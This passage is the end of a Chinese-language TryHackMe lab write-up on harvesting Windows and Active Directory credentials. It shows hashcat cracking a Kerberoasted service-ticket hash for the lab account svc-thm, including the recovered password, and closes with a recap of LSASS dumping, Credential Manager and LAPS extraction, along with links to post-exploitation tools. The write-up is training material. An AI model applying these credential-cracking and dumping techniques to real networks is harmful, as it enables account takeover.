6d45ebc4b474ce2bf3883bb650e14d2afb35a8bd6cc7c5170097058bd5f4aef39c53301904369079935d5d5fb75a2ee746a4edb73691a5f9f198cee73bebe8f2e77636819435fa898ec2902e42a9059039d88ddbad93914fe8df74d02342df30d4ab9023c5d551c7d232e9a63a1520f91e1520a699a8a164b268fbe155fa805e7dca9f63e3a581ab17a5d5acf2c6c64af03436506cfd620faf3515f32731df4e8a00c13f0b956b138ab9ec4c6273fa5c9a194e9e76248f7af32fbbdb23c6c55
```

然后使用 hashcat 进行破解

```shell
PS D:\_Tool\hashcat-6.2.6> .\hashcat.exe -a 0 -m 13100 .\hash.txt .\dics\rockyou.txt
......
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 13100 (Kerberos 5, etype 23, TGS-REP)
Hash.Target......: $krb5tgs$23$*svc-thm$THM.RED$THM.red/svc-thm*$8c185...3c6c55
Time.Started.....: Thu Dec 14 19:02:26 2023 (0 secs)
Time.Estimated...: Thu Dec 14 19:02:26 2023 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (.\dics\rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........: 26677.0 kH/s (3.82ms) @ Accel:512 Loops:1 Thr:32 Vec:1
Speed.#2.........:   310.5 kH/s (7.88ms) @ Accel:16 Loops:1 Thr:8 Vec:1
Speed.#*.........: 26987.5 kH/s
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 266240/14344385 (1.86%)
Rejected.........: 0/266240 (0.00%)
Restore.Point....: 0/14344385 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Restore.Sub.#2...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: newzealand -> maxfield
Candidates.#2....: 123456 -> oooooo
Hardware.Mon.#1..: Temp: 47c Util: 81% Core:1500MHz Mem:6000MHz Bus:8
Hardware.Mon.#2..: N/A
......

PS D:\_Tool\hashcat-6.2.6> .\hashcat.exe -a 0 -m 13100 .\hash.txt .\dics\rockyou.txt --show
$krb5tgs$23$*svc-thm$THM.RED$THM.red/svc-thm*$8c185b60958c2ef72ef1446f72ae2a43$205f25089c156df6e2a1a37c5309b704df042846a8d538968a1af9e164f5988fcf2642d1734c0344b10962121d05092802ac373a3210a9e5d88479e4a9a403072ce8d1a0b64c6d95a1655478c8df19ab20d1d88e30a60d5cfc81d1fc704daaf481931de7c93499030f5ba3eed14127bec73083a1f52b40ef4aae129fbd99e5cbd850e9ad77706ec57e7fbc7c12a3ad548e6f992dec6c46b845c2f0472be7ce9a15dca244288635320f7bfb378148edbbcc91c04d84227529c42dfd08787fa159a801375822fcf0e8ca9b2d97130017b9fa65fa0d9c303441f7b0c1ec8ebb59827bd231e4b9fdf8a677aaf16d5cbc8eeeab72fffc97b0fb0e6fd2d2418fd926d6afcda4b4ecb2550d6fc7641e4b5cb52a8b21240e626b511fd89d0520572fa857f14abe47a38553453df554c9fc366d9496a32bd25532dfbc8be8243d086eb306873a26d022819cb96316ca49457c83ce84d482dbc896739d4fcf05eeb6846fcaa80da81bfe444dbdc1dc9f4a4423c548f6677f6dc66c6ed7479f3d7336bf94f7ed006377445d0a2bfceaa4aa72be86adc51d8ef5a7e161e82a2659cca07230af4f00aa73ece2d5998cc90c83086be5a6c2086ed171ad2e608c132df8bb4f981842a7493b5a9938f1cc5b68a3916342534dba83688b423b46109084d070e2ffc0b1ab4141c77fa188c566c512059bdd5e09174bd4ef896c88554b82d1cc742994fc1ac8ad764cf77f5bb993fbf0526e733d6832a69a4fa005cc9fd3671e37bab53f42e84acfeacc2f104b08fd9350abdd7afece4e89b8fd240951512d1d1cc46343378d4d05f16c58cc0ab7d126794c892429764bc2cbb0335c3b131514b3adcd9188bd6ea3ea052b7a061af8a0769c9c7fd45c6dbe081b2546d4c3211df253582c8be2096970feb5a941ed53753bad6f7cbb0e2fc918342616762b9618948f39dc7a77c8d3cd1fcaee958308896e93f88bb439a3a24e08ad06d45ebc4b474ce2bf3883bb650e14d2afb35a8bd6cc7c5170097058bd5f4aef39c53301904369079935d5d5fb75a2ee746a4edb73691a5f9f198cee73bebe8f2e77636819435fa898ec2902e42a9059039d88ddbad93914fe8df74d02342df30d4ab9023c5d551c7d232e9a63a1520f91e1520a699a8a164b268fbe155fa805e7dca9f63e3a581ab17a5d5acf2c6c64af03436506cfd620faf3515f32731df4e8a00c13f0b956b138ab9ec4c6273fa5c9a194e9e76248f7af32fbbdb23c6c55:Passw0rd1
```

</details>

```plaintext
Passw0rd1
```

:::

## Conclusion

### 回顾

在这个房间中，我们讨论了获取用户凭据的各种方法，包括本地计算机和域控制器，总结如下：

- 我们讨论了访问 Windows 内存，转储 LSASS 进程并提取身份验证哈希值。
- 我们讨论了 Windows 凭据管理器以及提取密码的方法。
- 我们介绍了 Windows LAPS 功能，并进行了枚举以找到正确的用户和目标来提取密码。
- 我们介绍了 AD 攻击，导致转储和提取用户凭据。

以下工具可能值得尝试，用于扫描目标机器（文件、内存等）以搜索敏感信息。建议在枚举阶段尝试使用它们。

- [Snaffler](https://github.com/SnaffCon/Snaffler)
- [Seatbelt](https://github.com/GhostPack/Seatbelt)
- [Lazagne](https://github.com/AlessandroZ/LaZagne)
- [Post Exploitation on Saved Password with LaZagne](https://www.hackingarticles.in/post-exploitation-on-saved-password-with-lazagne/)
